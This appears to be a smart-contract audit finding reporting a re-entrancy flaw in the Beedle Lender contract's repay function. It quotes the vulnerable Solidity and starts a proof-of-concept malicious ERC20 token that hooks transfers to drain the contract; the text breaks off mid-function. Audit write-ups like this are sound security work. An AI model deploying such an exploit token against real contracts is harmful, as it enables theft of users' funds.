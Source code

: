 ## Vulnerability Details
The `Lender` contract allows any token as `loanToken` and the `repay` function transfers the tokens before deleting the loan which result in a re-entrancy vulnerability. A malicious actor can craft a token allowing reentrant calls on transfer to exploit the re-entrancy vulnerability in the `repay` function and get more than one time his collateral back.

```solidity
File: Lender.Sol

L316:	// transfer the loan tokens from the borrower to the pool
            IERC20(loan.loanToken).transferFrom( // @audit - Re-entrancy can drain contract
                msg.sender,
                address(this),
                loan.debt + lenderInterest
            );
            // transfer the protocol fee to the fee receiver
            IERC20(loan.loanToken).transferFrom(
                msg.sender,
                feeReceiver,
                protocolInterest
            );
            // transfer the collateral tokens from the contract to the borrower
            IERC20(loan.collateralToken).transfer(
                loan.borrower,
                loan.collateral
            );
            emit Repaid(
                msg.sender,
                loan.lender,
                loanId,
                loan.debt,
                loan.collateral,
                loan.interestRate,
                loan.startTimestamp
            );
            // delete the loan
            delete loans[loanId];
        }
```
https://github.com/Cyfrin/2023-07-beedle/blob/658e046bda8b010a5b82d2d85e824f3823602d27/src/Lender.sol#L317


## Impact
All tokens can be drained from the contract. This is a critical vulnerability.
### POC
An attacker can use the following exploit contracts to drain the `lender` contract:

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.19;

import {ERC20} from "openzeppelin-contracts/contracts/token/ERC20/ERC20.sol";

contract ExploitToken is ERC20 {
    address owner;
    constructor(uint256 amount) ERC20("ExploitToken", "ET") {
        owner = msg.sender;
        _mint(msg.sender, amount);
    }

    // Hook on token transfer
    function _afterTokenTransfer(address from, address to, uint256 amount) internal override {
```
